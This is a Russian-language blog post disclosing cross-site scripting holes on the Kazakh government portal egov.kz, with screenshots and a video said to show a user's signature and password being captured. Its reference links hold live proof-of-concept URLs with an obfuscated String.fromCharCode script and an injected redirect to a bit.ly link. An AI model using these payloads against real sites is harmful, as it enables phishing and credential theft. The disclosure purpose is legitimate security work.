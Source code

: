 ```yaml
---
layout: post
title: "Уязвимость на сайте egov.kz (XSS)"
date: '2017-6-8T13:24:14+06:00'
categories: xss security
about: 'about.html'
---
```

Про эти проблемы я сообщил press@nitec.kz более года назад. Многие проблемы они устранили, но не всё. Думаю пришло время дисклозить.
<!--more-->

>**XSS** (cross site scripting) или межсайтовый скриптинг - это серьезная уязвимость. Простыми словами, на вашем сайте (без вашего 
разрешения) выполняется чужой код. То есть, кто-то может контролировать что делает или видит пользователь вашего сайта!

Очень важно, чтобы главный портал государственных услуг был без уязвимостей. XSS это еще одна возможность для мошенников производить фишинг атаки на пользователей. Ниже в посте есть видео кражи ЭЦП.

В посте описаны не все найденные уязвимости. Стоит отметить, что egov.kz отвечает на письма и исправляет проблемы. Но следующие XSS обещали исправить еще 31 Марта 2016 года.


+ Reflected XSS через Поиск - не исправлено

Обычно XSS на сайтах чаще можно найти через Search.
![image][img0]
 
Egov.kz не исключение. Вот результат такого запроса.
![image][img1]

**Proof of Concept**: [XSS через Поиск]


+ Reflected XSS через IBM Eclipse Help System - не исправлено

Похоже, что egov.kz использует старый IBM WebSphere вперемешку с Drupal.
![image][img2]
![image][img3]

Для старого WebSphere есть [старый XSS]. Остается надеяться, что egov.kz устанавливает другие патчи на WebSphere.
![image][img4]

**Proof of Concept**: [XSS через IEHS]


+ XSS на idp.egov.kz - исправлено. 

Здесь параметр redirectURL не был обработан.
![image][img5]

На видео ниже, ЭЦП и пароль пользователя отправляются на localhost. Все работает по HTTPS.

<iframe src="https://player.vimeo.com/video/166616876" width="640" height="480" frameborder="0" webkitallowfullscreen mozallowfullscreen allowfullscreen></iframe>

Все примеры выше выполняется в контексте javascript кода. То есть, XSS аудиторы современных браузеров бессильны. Кстати, не знаю зачем мошенникам пароли, ведь пароль всех ЭЦП **123456** :)

[XSS через Поиск]: http://egov.kz/wps/portal/!ut/p/b1/jY7LCsIwFES_qNxJLq3JMj7SBKVBKGizkSxECn1sSr_f2r3V2Q2cwwxFajItUEBKxXSnOKS5faWpHYfUfXosHjuGVHthEBiAr_VBq2vNJWMBmgUITtgy14xwVCd4lXNlL07iLP_z8SUGv_wbxRXZerACGxOVG_sn9bGz2mfmDbEtbmo!/dl4/d5/L2dBISEvZ0FBIS9nQSEh/pw/Z7_73028B1A003DC0AS22M7DL2003/act/id=0/p=from=0/p=lang=all/p=textSearch=x';document.write(String.fromCharCode(60,115,99,114,105,112,116,62,119,105,110,100,111,119,46,108,111,99,97,116,105,111,110,46,104,114,101,102,61,34,104,116,116,112,58,47,47,98,105,116,46,108,121,47,73,113,84,54,122,116,34,60,47,115,99,114,105,112,116,62));'/p=category=all/318769911448/-/
[старый XSS]: http://www.securityfocus.com/bid/54051/info
[XSS через IEHS]: http://egov.kz/wps/iehs/topic/com");}window.location.replace("//bit.ly/IqT6zt");//.htm
[img0]: /assets/images/{{page.slug}}/img0.png
[img1]: /assets/images/{{page.slug}}/img1.png
[img2]: /assets/images/{{page.slug}}/img2.png
[img3]: /assets/images/{{page.slug}}/img3.png
[img4]: /assets/images/{{page.slug}}/img4.png
[img5]: /assets/images/{{page.slug}}/img5.png